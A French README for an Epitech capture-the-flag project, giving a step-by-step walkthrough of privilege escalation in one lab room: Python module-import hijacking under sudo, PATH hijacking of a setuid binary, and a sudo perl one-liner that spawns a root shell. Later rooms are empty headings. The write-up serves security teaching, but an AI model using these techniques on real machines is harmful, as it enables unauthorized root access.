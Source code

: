 Ceci est la documentation pour le projet Epitech SOCAT. Il s'agit d'un CTF (capture the flag).

## Sujet Traité :

Etude des vulnérabilités de machines virtuelles.

## Liste non exhaustive des domaines que nous couvrirons :
Reverse Engineering, cryptographie, encodage, gestion des erreurs, protocoles, synchronisation, pièges de langage, escalade de privilèges, etc.



# Room 1 - Toss a coin 

## user.txt ?


## root.txt ?

### Jaskier


- Nous avons ce qui semble être le mot de passe de Jaskier, on peut se connecter en SSH à la machine en tant qu'utilisateur Jaskier.
    ```bash
    ssh jaskier@10.10.250.243
    ```
  ![alt-text](ressources/ssh.png)

- Commençons par regarder ce qu'il y a dans le dossier personnel de Jaskier.
    ```bash
    ls -lha
    ```
    ![alt-text](ressources/lslha.png)  

- Il y a un script python. Il importe le module random et l'utilise pour sélectionner dix lignes aléatoires de la chanson.
- On vérifie ce que l'utilisateur Jaskier peut exécuter en tant que sudo afin de nous indiquer à qui nous allons élever nos privilèges en premier.
    ```bash
    sudo -l
    ```
  ![alt-text](ressources/sudol.png)

- Nous pouvons exécuter ce script python dans notre dossier en tant que utilisateur yen.
- Un module est juste un fichier python avec des fonctions qui peuvent être référencées. Ainsi, lorsque la ligne d'importation aléatoire est exécutée, le script recherche ce fichier random.py. Nous pouvons savoir où il recherche ce fichier random.py.

    ```bash
  python3.6 -c 'import sys; print(sys.path)'
    ```
  ![alt-text](ressources/syspath.png)
- Nous pouvons voir qu'il recherche le fichier random.py dans le dossier /home/jaskier (['']).
- Donc, si on crée un fichier random.py dans ce répertoire, le script python ferait référence à ce fichier car c'est le premier endroit où il vérifie.

   ```bash
    nano random.py
    ```
   ```python
    import os
    os.system("/bin/bash")
  ```
    
- On accorde des droits d'éxécution
    ```bash
    chmod 755 random.py
    ```
  
- Et maintenant, nous exécutons le script python en tant que sudo.
    ```bash
    sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
    ```
  
- Et nous obtenons un shell en tant qu'utilisateur yen.


### yen

- Commençons par regarder ce qu'il y a dans le dossier personnel de yen.
    ```bash
    ls -lha
    ```
  ![alt-text](ressources/lslha2.png)
- Nous avons un fichier qui appartient à root, mais lisible par yen. Il semble que nous ayons besoin d'un autre niveau de privesc.
- Une fois executé nous obtenons un segfault, après avoir vérifié avec valgrind on se rend compte que c'est un faux segfautl. Donc probablement pas un d'erreur mémoire exploitable. 
    
  ![alt-text](ressources/portal.png)

- Mettons le fichier dans machine hôte et regardons-le.
    ```bash
    python3 -m http.server 8000
    ```
  
- Sur notre machine hote
  ```bash
  wget http://10.10.250.243:8000/portal
  ```


- Ouvrons ce binaire dans radare2 en mode débugg.

    ```bash
    r2 -d portal
    ```
  
    ```bash
    aa
    ```
- Maintenant, imprimons la liste des fonctions du binaire.
  
    ```bash
    pdf @main
    ```
  ![alt-text](ressources/assembleur.png)
  
- En parcourant le code en assembleur, nous pouvons voir que setuid et setgid sont définis sur 1003.
- Sur la machine attaquée, regardons /etc/passwd et voyons qui a un identifiant de 1003.

    ```bash
    cat /etc/passwd | grep 1003
    ```
    ![alt-text](ressources/geralt.png)
  
- Nous avons un utilisateur avec un identifiant de 1003.
- En regardant encore le code en assembleur, nous observons que l'exécutable utilise le binaire système date

    ![alt-text](ressources/echo.png)

- La commande echo a un chemin absolu alors que la commande date n'en a pas. Il s'agit d'une référence non sécurisée à un fichier et qui peut être exploitée.
- Si un programme est référencé sans chemin absolu, il doit vérifier la variable d'environnement PATH afin de trouver l'emplacement du binaire. Cependant, nous pouvons changer cette variable.
- Ajoutons le dossier actuel à la variable d'environnement PATH.

    ```bash
    export PATH=/home/yen:$PATH
    ```
  
- On crée notre propre fichier date et on le rend exécutable

    ```bash
    nano date
    ```
  
    ```bash
    #!/bin/bash
    /bin/bash 
    ```

- On accorde des droits d'exécution
  ```bash
  chmod 755 date
  ```

- Maintenant, lorsque date est exécuté, il génère un shell. Étant donné que l'uid et le gid sont définis sur ceux de l'utilisateur geralt, lorsque le programme de date est exécuté dans le binaire portal, il générera un shell en tant qu'utilisateur geralt.

![alt-text](ressources/portal_succes.png)

### geralt

- Une fois sur geralt nous pouvons consulter ce qu'il peut exécuter en tant que sudo.
    ```bash
    sudo -l
    ```
  ![alt-text](ressources/sudol3.png)

- On observe que l'utilisateur peut exécuter un programme ou un script en langage Perl en tant qu'utilisateur root. Par conséquent, on exécute ce Perl one-liner pour récupérer le shell en root.

```bash
sudo perl -e 'exec "/bin/bash";'
```
![alt-text](ressources/perl.png)

- Nous somme maintenant en root, et nous pouvons consulter le fichier root.txt.
 
```bash
 cat ../../root/root.txt
 ```



# Room 2 - Yer a Wizard


# Room 3 - Muso Troglodytarum
